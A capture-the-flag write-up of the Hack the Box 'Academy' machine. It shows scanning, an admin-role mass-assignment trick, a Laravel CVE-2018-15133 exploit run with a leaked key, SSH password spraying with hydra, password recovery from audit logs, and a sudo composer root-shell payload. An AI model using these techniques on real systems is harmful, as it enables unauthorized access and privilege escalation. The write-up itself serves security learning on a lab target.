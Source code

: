 ```yaml
---
description: Writeup for Academy from Hack the Box
---
```


# Academy

`nmap -sV -T4 -p- 10.10.10.215`

```text
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

Navigating to [http://10.10.10.215](http://10.10.10.215) redirects to an unknown host [http://academy.htb/](http://academy.htb/).

Add an entry to the hosts file at `/etc/hosts`, to resolve the `academy.htb` domain to 10.10.10.215.

![](../../.gitbook/assets/2f72f94658284798865ecddb779711db.png)

Now it works and we can see the website properly.

`gobuster dir -u http://academy.htb/ -w /usr/share/dirb/wordlists/common.txt`

![](../../.gitbook/assets/15c9503ba0004faf82d3b692563ad53f.png)

There was a registration page and a login page, so I went ahead and registered with credentials test:test.

![](../../.gitbook/assets/ce40b655d79744c2b435078d98a8323f.png)

**Always look at what you are POST-ing!**

When registering, there is a `roleid` parameter.

![](../../.gitbook/assets/62a4c3cfbb4547159ebd1f947e137abc.png)

So, let's try to create _another_ account, changing the roleid from 0 to 1.

![](../../.gitbook/assets/1507f4fbcbae4e779e60bc95c330780d.png)

This gives us admin privileges. From the previously found `/admin.php`, we can login:

![](../../.gitbook/assets/2483b0aaca5347be96bc486a531f431a.png)

Crucial information! Let's add `dev-staging-01.academy.htb` to our `/etc/hosts` file.

![](../../.gitbook/assets/3b57adc2cf0d4962816de581822dde68.png)

The site:

![](../../.gitbook/assets/a83e981a3f694d439f2f67bb876839f7.png)

The site uses Laravel. API key: `dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=`

![](../../.gitbook/assets/179a3fc2613b4dad93e4d4c442a4ffc0.png)

There is a MySQL username and password combination. However, trying to authenticate remotely into the MySQL server failed.

Googling will tell us several CVEs associated with Laravel.

Found this neat tool for exploiting CVE-2018-15133: [https://github.com/aljavier/exploit\_laravel\_cve-2018-15133](https://github.com/aljavier/exploit_laravel_cve-2018-15133)

CVE-2018-15133 is an RCE vulnerability that requires us to know the APP\_NAME \(API token\). From the information above, we have found the APP\_NAME!

Run the exploit:

`python3 pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive`

Note that we should be using `dev-staging-01.academy.htb` as the target URI because the Laravel is running on this domain.

![](../../.gitbook/assets/87684c098d944a0e9ad83ff67d2a97df.png)

Get some basic information:

![](../../.gitbook/assets/9f11adaf245344538d1c2f03cac8cd7f.png)

## Privilege Escalation

The `.env` file stores the environment variables.

![](../../.gitbook/assets/0691823efee44df09e6a2c0e504037ab.png)

![](../../.gitbook/assets/9a81ae90a51a41588c055a24702a1832.png)

Find the regular users \(those with `/home/<username>`\):

![](../../.gitbook/assets/190c61d4199b4353b0794481df0adc3c.png)

We want to enumerate these users to check if any of them used the same password for their user account as the mysql account \(password spraying attack\)

![](../../.gitbook/assets/b774a3e704ee44bfae4f772ce34228ba.png)

`hydra -L users.txt -p mySup3rP4s5w0rd\!\! -v ssh://10.10.10.215`

* Note that `!!` is a feature in Bash which re-executes the previous command.
* This is why the `!!` needs to be escaped, i.e. `\!\!`

![](../../.gitbook/assets/d2fbe58fac8c4b03ab58a4cde907ca95.png)

`ssh 10.10.10.215 -l cry0l1t3` and use the `mySup3rP4s5w0rd!!` password.

![](../../.gitbook/assets/ecf0a5341ca14fe49730382eacae8fbf.png)

**User Flag:**

![](../../.gitbook/assets/bb1de51134a94a4dae5cbf2695057c16.png)

Upgrade to tty shell: `python3 -c 'import pty;pty.spawn("/bin/bash")'`

![](../../.gitbook/assets/848ea9a1779f4c1494a3048c7a16a6b2.png)

A handy thing to check for is user groups. I don't have sufficient privileges, but maybe someone else does? So, egre55 is in the same group `adm` as us, but he is also in other groups such as `sudo`.

![](../../.gitbook/assets/802178e4db6c4e08b979eb7cb671d1f7.png)

I tried `grep` to find credentials for egree55 to no avail.

### /var/log/audit

The audit logs contain a field

`comm="<command name>"`

The comm field records the command-line name of the command that was used to invoke the analyzed process. In this case, the cat command was used to trigger this Audit event.

So we can look for `comm="su"` in the audit logs.

`grep -r 'comm="su"' /var/log/audit`

![](../../.gitbook/assets/3da36fd1f4374792bcaba8d960e491d8.png)

The `data` field is the supplied user input, in _hexadecimal_. We need to convert to ASCII.

![](../../.gitbook/assets/12a8b6bed1474538adf8658f8d03bac1.png)

Now we can login as mrb3n.

```text
ssh 10.10.10.215 -l mrb3n
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### sudo -l

`sudo -l` shows us which commands that we are allowed to run as `sudo`, i.e. `root`. Sudo allows users to run _some_ commands as root. Using `sudo -l` we can find out which commands these are.

![](../../.gitbook/assets/4eb805da3bf648e1afd6fc5b69336d14.png)

### GTFO

Great resource to find info on binaries that can be used to elevate privileges! These are all _legitimate_ functions of binaries that can be exploited _given there are misconfigurations_.

[https://gtfobins.github.io/](https://gtfobins.github.io/)

Here we can find info on what we can do when we have `sudo`:

![](../../.gitbook/assets/42c271f82e38419c8a9ef6e90db99850.png)

So just run the commands given!

```bash
mrb3n@academy:~$ TF=$(mktemp -d)
mrb3n@academy:~$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
mrb3n@academy:~$ sudo composer --working-dir=$TF run-script x
```

We should get a root shell! There's an `academy.txt` easter egg as well.

![](../../.gitbook/assets/fe56bd06bbbf4e218ced184e6d82e911.png)

